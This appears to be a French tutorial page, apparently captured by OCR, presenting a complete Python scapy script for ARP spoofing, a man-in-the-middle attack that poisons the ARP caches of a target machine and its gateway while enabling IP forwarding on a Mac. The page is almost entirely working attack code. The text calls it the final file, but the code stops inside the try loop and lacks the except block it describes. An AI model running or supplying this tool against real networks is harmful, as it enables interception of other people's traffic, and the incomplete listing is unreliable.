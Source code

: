 On rajoute les modules os et signal, le paramètre `scapy.conf.iface = "en0"` (dépendant de votre configuration par pont, à voir dans VMware), dans le try les instructions pour autoriser le port forwarding, et dans le except les instructions pour retourner à l'état initial. Voici le fichier final :

```python
import scapy.all as scapy
import time
import argparse
import os
import signal

def get_args():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest = "target_ip", help = "IP Address of the target.")
    parser.add_argument("-g", "--gateway", dest = "gateway_ip", help = "IP Address of the Gateway.")
    options = parser.parse_args()
    if not options.target_ip:
        #Code to handle if an IP Address of the target is not specified.
        parser.error("[-] Please specify an IP Address of the target machine, use --help for more info.")
    elif not options.gateway_ip:
        #Code to handle if an IP Address of the gateway is not specified.
        parser.error("[-] Please specify an IP Address of the gateway, use --help for more info.")
    return options

def get_mac(ip):
    arp_req_frame = scapy.ARP(pdst = ip)
    broadcast_ether_frame = scapy.Ether(dst = "ff:ff:ff:ff:ff:ff")
    broadcast_ether_arp_req_frame = broadcast_ether_frame / arp_req_frame
    answered_list = scapy.srp(broadcast_ether_arp_req_frame, timeout = 1, verbose = False)[0]
    return answered_list[0][1].hwsrc
  
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    spoof_packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)
    scapy.send(spoof_packet, verbose = False)
    
def restore(source_ip, destination_ip):
    source_mac = get_mac(source_ip)
    destination_mac = get_mac(destination_ip)
    restore_packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(restore_packet, count =1, verbose = False)
  
packets_sent = 0

options = get_args()
target_ip = options.target_ip
gateway_ip = options.gateway_ip
scapy.conf.iface = "en0"

try:
    print("[*] Enabling IP forwarding")
    #Enable IP Forwarding on a mac
    os.system("sudo sysctl -w net.inet.ip.forwarding=1")
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        packets_sent += 2
        print("\r[+] Packets Sent: {}".format(packets_sent), end = "")
        time.sleep(2)
    
        
```